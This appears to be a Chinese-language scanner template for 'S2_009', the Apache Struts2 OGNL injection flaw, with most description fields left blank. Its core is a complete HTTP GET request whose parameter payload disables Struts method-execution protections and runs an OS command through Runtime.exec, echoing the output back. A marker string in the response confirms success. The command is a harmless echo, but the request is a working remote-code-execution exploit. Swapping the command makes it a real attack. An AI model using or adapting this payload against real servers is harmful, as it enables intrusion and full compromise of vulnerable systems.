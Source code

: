 ﻿# S2_009

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /ajax/example5?age=20&name=(%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D=+new+java.lang.Boolean(false),+%23_memberAccess%5B%22allowStaticMethodAccess%22%5D=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27echo%2078468794903108696%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char%5B51020%5D,%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z%5B(name)(%27meh%27)%5D HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：78468794903108696

> 上传文件定位：

> 验证文件来源：S2_009.poc
